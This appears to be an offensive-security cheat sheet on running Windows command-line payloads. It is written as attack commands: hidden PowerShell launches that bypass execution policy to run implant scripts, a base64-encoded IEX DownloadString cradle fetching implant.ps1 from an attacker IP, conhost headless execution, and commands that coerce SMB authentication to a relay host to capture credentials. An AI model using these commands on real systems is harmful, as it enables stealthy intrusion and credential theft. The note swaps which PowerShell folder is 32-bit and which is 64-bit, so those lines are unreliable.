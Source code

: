 # Windows CLI Console

Search Tag(s): #weaponization #client-side-attacks #living-off-the-land #windows

## Command Prompt

Execute commands.

```
C:\> cmd.exe /c <commands>
```

```
C:\> cmd.exe - < [<drive_letter>:\]path\to\implant.bat
```

Execute command to perform SMB authentication relay.

```
C:\> echo 1 > //snare/share

C:\> pushd \\snare\share

C:\> cmd.exe /k \\snare\share

C:\> cmd.exe /c \\snare\share

C:\> start.exe \\snare\share

C:\> mkdir \\snare\share

C:\> type \\snare\share

C:\> dir \\snare\share

C:\> net view \\snare

C:\> MpCmdRun.exe -Scan -ScanType 3 -File \\snare\share\file.txt
```

TODO: Check the rest

```
find, findstr, [x]copy, move, replace, del, rename and many more!
```

## PowerShell

System32 is for 32-bit powershell payloads

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ex bypass -f file.ps1

C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f file.ps1
```

SysWOW64 is for 64-bit powershell payloads

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -ep bypass -f shell.ps1

C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f shell.ps1
```

### Base64 encoded

Encode the string of commands.

```
$ str="IEX ((New-Object Net.WebClient).DownloadString('http://<IP>/implant.ps1'))"

$ echo -en $str | iconv -t UTF-16LE | base64 -w 0

$ echo -en $str | iconv -t UTF-16LE | basenc -w 0 --base64

$ echo -en $str | iconv -t UTF-16LE | openssl enc -base64 -A

$ echo -en $str | iconv -t UTF-16LE | openssl enc -a -e -A
```

Then execute it in a one-liner.

```
C:\> powershell.exe -nop -NonI -Nologo -w hidden -enc <base64_encoded>
```

### Execution Policy

```
PS C:\> Set-ExecutionPolicy Bypass -Scope <CurrentUser | Process> [-File C:\path\to\file.ps1
```

Execute cmdlet to perform SMB authentication relay.

```
C:\> Get-ChildItem \\snare\share

PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null
```

## Conhost

```
C:\> conhost --headless <commands>
```

```
C:\> conhost.exe --headless powershell.exe -nop -NonI -Nologo -w hidden -enc <base64_encoded>

C:\> conhost.exe --headless powershell.exe -noni -nop -ep bypass -file implant.ps1
```

---
## References

- [[03 - Malware Development/Helpers/Evasion/Obfuscation Techniques/Cross Platform/PowerShell||Malware Development: PowerShell Obfuscation Techniques]]

- [[Batch|Malware Development: Batch Obfuscation Techniques]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Callback Shells/One-Liners/Windows/Reverse Shells/PowerShell|Callback Shells: Powershell]]

- [LOLBAS: Cmd](https://lolbas-project.github.io/lolbas/Binaries/Cmd/)

- [LOLBAS: Conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)

- [Mrd0x: Introduction to Parent-Child Process Evasion](https://mrd0x.com/introduction-to-parent-child-process-evasion/)

- [NetSPI: 15 Ways to Bypass the PowerShell Execution Policy](https://www.netspi.com/blog/technical-blog/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)

- [r00t-3xp10it: CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
